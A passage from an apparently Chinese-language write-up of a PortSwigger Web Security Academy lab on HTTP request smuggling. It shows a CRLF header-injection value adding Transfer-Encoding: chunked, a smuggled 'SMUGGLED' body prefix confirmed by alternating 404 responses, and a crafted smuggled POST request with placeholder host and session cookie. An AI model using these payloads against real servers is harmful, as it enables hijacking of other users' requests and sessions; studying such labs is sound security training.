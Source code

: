 ```c
bar\r\n
Transfer-Encoding: chunked
```

![img](assets/1706773318-4a6dbed49c51098bf7a5683caefa8aed.png)

Body 部分如下所示：

```c
0
SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上

![img](assets/1706773318-242a19722bef32556f70c11d7599e990.png)

Step 3：随后构造如下请求数据包

```plain
0
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800
search=x
```
